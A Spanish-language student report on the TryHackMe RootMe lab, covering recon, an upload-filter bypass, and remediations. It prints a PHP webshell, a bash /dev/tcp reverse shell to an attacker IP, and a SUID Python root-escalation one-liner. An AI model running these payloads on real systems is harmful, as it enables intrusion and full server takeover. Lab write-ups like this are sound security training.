# Desafío Práctico: RootMe – TryHackMe

**Asignatura:** Diseño de Arquitecturas de Seguridad TI
**Profesor:** Diego Miguel Cáceres Solís
**Alumno:** Joaquin Almendares
**Fecha de entrega:** 26/10/2026

---

**Objetivo del desafío:** Resolver el laboratorio RootMe de TryHackMe, identificar y documentar las vulnerabilidades explotadas, proponer medidas de remediación y publicar un informe técnico en GitHub.


---

## Tabla de contenidos

1. [Objetivo y descripción del laboratorio](#1-objetivo-y-descripción-del-laboratorio)
2. [Herramientas utilizadas](#2-herramientas-utilizadas)
3. [Metodología, etapas y evidencias](#3-metodología-etapas-y-evidencias)
4. [Vulnerabilidades encontradas y sus posibles impactos](#4-vulnerabilidades-encontradas-y-sus-posibles-impactos)
5. [Remediaciones recomendadas](#5-remediaciones-recomendadas)
6. [Conclusiones y aprendizajes obtenidos](#6-conclusiones-y-aprendizajes-obtenidos)
7. [Confirmación de finalización](#7-confirmación-de-finalización)

---

## 1. Objetivo y descripción del laboratorio

RootMe es una máquina de nivel introductorio de TryHackMe orientada a practicar reconocimiento de servicios web, explotación de una vulnerabilidad de subida de archivos (file upload) para obtener ejecución remota de comandos, y escalada de privilegios mediante un binario con permisos SUID mal configurado.

La meta del laboratorio era obtener acceso como usuario `www-data` a través de una reverse shell, escalar privilegios hasta `root`, y capturar las dos flags del sistema (`user.txt` y `root.txt`).

---

## 2. Herramientas utilizadas

- **Nmap** – Escaneo de puertos y detección de servicios/versiones.
- **Gobuster** – Fuzzing de directorios y enumeración de rutas web ocultas.
- **Navegador web (Firefox)** – Interacción con el formulario de subida de archivos y envío de la reverse shell.
- **Netcat (nc)** – Recepción de la reverse shell.
- **Python 3 (`pty`)** – Estabilización de la shell interactiva (TTY upgrade).
- **Python 2.7 (binario SUID)** – Vector de escalada de privilegios.
- **GTFOBins** – Referencia para identificar el método de explotación del binario SUID.

---

## 3. Metodología, etapas y evidencias

### 3.1 Reconocimiento

Escaneo inicial de puertos y servicios sobre la IP de la máquina objetivo:

```bash
nmap -sC -sV -oN nmap_initial.txt 10.65.139.20
```

**Resultado:** 2 puertos abiertos.

| Puerto | Servicio | Versión |
|--------|----------|---------|
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 |
| 80/tcp | HTTP | Apache httpd 2.4.41 (Ubuntu) |





Enumeración de directorios ocultos en el servidor web:

```bash
gobuster dir -u http://10.65.139.20/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Resultado:** se identificaron los directorios `/uploads`, `/css`, `/js`, `/panel` (301) y `/server-status` (403). El directorio relevante fue **`/panel/`**, que contenía un formulario de subida de archivos.





---

### 3.2 Explotación — Bypass de validación de archivos

Se creó una webshell simple en PHP:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Al subir `shell.php` por el formulario de `/panel/`, el servidor respondió **"PHP não é permitido!"**, confirmando un filtro de extensión del lado del servidor.





Se evadió el filtro renombrando el archivo con una extensión alternativa que Apache sigue interpretando como PHP:

```bash
cp shell.php shell.phtml
```

Al subir `shell.phtml`, el servidor respondió **"O arquivo foi upado com sucesso!"**, confirmando el bypass exitoso del filtro.





---

### 3.3 Ejecución remota de comandos (RCE)

Se accedió directamente al archivo subido para confirmar ejecución de comandos:

```
http://10.65.139.20/uploads/shell.phtml?cmd=id
```

**Resultado:** `uid=33(www-data) gid=33(www-data) groups=33(www-data)` — RCE confirmado sobre el servidor.



---

### 3.4 Obtención de shell interactiva

Listener en la máquina atacante:

```bash
nc -lvnp 4444
```

Envío de reverse shell a través del parámetro `cmd`:

```
http://10.65.139.20/uploads/shell.phtml?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.65.149.223/4444+0>%261'
```

Conexión recibida como `www-data`.



Estabilización de la shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```



---

### 3.5 Obtención de la user flag

```bash
find / -name "user.txt" 2>/dev/null
cat /var/www/user.txt
```

**Resultado:** flag de usuario obtenida.





---

### 3.6 Escalada de privilegios

Búsqueda de binarios con el bit SUID activo:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Se identificó un binario anómalo: **`/usr/bin/python2.7`** con permisos SUID — un intérprete de Python no debería tener este bit activo, ya que permite ejecutar código arbitrario con los privilegios del propietario del archivo (root).







Explotación siguiendo la técnica documentada en GTFOBins para Python:

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
id
```

**Resultado:** `uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)` — privilegios de `root` obtenidos.



---

### 3.7 Obtención de la root flag

```bash
find / -name "root.txt" 2>/dev/null
cat /root/root.txt
```

**Resultado:** flag de root obtenida.





---

## 4. Vulnerabilidades encontradas y sus posibles impactos

### 4.1 Subida de archivos sin validación adecuada (Unrestricted File Upload)

- **Descripción:** El formulario de `/panel/` validaba únicamente la extensión literal `.php`, sin controlar otras extensiones ejecutables por Apache (`.phtml`, `.php5`, `.pht`, etc.) ni el contenido real del archivo (MIME type, magic bytes).
- **Cómo fue detectada:** Al intentar subir `shell.php` el servidor la rechazó explícitamente, lo que indicó la existencia de un filtro; probar una extensión alternativa (`.phtml`) confirmó que el filtro era incompleto.
- **Condiciones que permitieron la explotación:** Filtro de extensión incompleto (blacklist en vez de whitelist) y configuración de Apache que interpreta múltiples extensiones como scripts PHP.
- **Impacto en un entorno real:** Permite a un atacante no autenticado subir una webshell y ejecutar comandos arbitrarios en el servidor, comprometiendo completamente la aplicación web y, potencialmente, el sistema operativo subyacente.

### 4.2 Binario con permisos SUID mal configurado (`/usr/bin/python2.7`)

- **Descripción:** El intérprete de Python 2.7 tenía el bit SUID activado, algo que no corresponde a una configuración estándar o segura.
- **Cómo fue detectada:** Mediante `find / -perm -4000 -type f`, que lista todos los binarios con el bit SUID activo en el sistema; `/usr/bin/python2.7` destacó como un binario fuera de lo común para tener ese permiso.
- **Condiciones que permitieron la explotación:** Mala práctica de administración del sistema; un intérprete de propósito general con SUID puede ejecutar cualquier código arbitrario con los privilegios del propietario del archivo.
- **Impacto en un entorno real:** Cualquier usuario con acceso a una shell en el sistema (incluso un proceso de bajo privilegio comprometido, como `www-data`) puede escalar directamente a `root`, obteniendo control total del servidor.

---

## 5. Remediaciones recomendadas

**Para la vulnerabilidad de subida de archivos:**
- Validar el tipo de archivo mediante **whitelist** de extensiones permitidas (ej. solo `.jpg`, `.png`, `.gif`), nunca por blacklist.
- Verificar el contenido real del archivo (magic bytes / MIME type) en el servidor, no solo la extensión del nombre.
- Renombrar los archivos subidos con un nombre generado aleatoriamente, sin conservar la extensión original proporcionada por el usuario.
- Almacenar los archivos subidos fuera del directorio web raíz, o en una ubicación sin permisos de ejecución de scripts.
- Configurar Apache/PHP para que el directorio de uploads no interprete ningún tipo de script (`php_admin_flag engine off` o similar en la configuración del `VirtualHost`/`.htaccess`).

**Para el binario SUID mal configurado:**
- Remover el bit SUID de intérpretes de propósito general como Python: `chmod u-s /usr/bin/python2.7`.
- Aplicar el **principio de mínimo privilegio**: ningún binario debería tener SUID salvo que sea estrictamente necesario para su función.
- Auditar periódicamente el sistema en busca de binarios con SUID/SGID inusuales: `find / -perm -4000 -type f 2>/dev/null`.
- Mantener los servicios y el sistema operativo actualizados, y retirar versiones obsoletas como Python 2.7 (fuera de soporte desde 2020).

---

## 6. Conclusiones y aprendizajes obtenidos

Este laboratorio permitió reforzar el flujo completo de un pentest a una aplicación web básica: reconocimiento de servicios, enumeración de rutas ocultas, explotación de un control de validación insuficiente para lograr ejecución remota de código, obtención de una shell estable, y escalada de privilegios aprovechando una mala configuración de permisos a nivel de sistema operativo.

El principal aprendizaje es que los controles de seguridad superficiales (como filtrar solo una extensión de archivo) son triviales de evadir si no se validan en profundidad, y que una sola mala configuración a nivel de sistema (un binario con SUID innecesario) puede anular por completo cualquier medida de seguridad aplicada a nivel de aplicación. La defensa en profundidad —validar en múltiples capas y aplicar mínimo privilegio de forma consistente— es esencial para evitar que una vulnerabilidad aparentemente menor derive en compromiso total del sistema.

---

## 7. Confirmación de finalización

El desafío **RootMe** de TryHackMe fue completado en su totalidad.



---

Actividad realizada exclusivamente dentro del entorno autorizado de TryHackMe. Las flags obtenidas no se exponen en su totalidad en este repositorio.
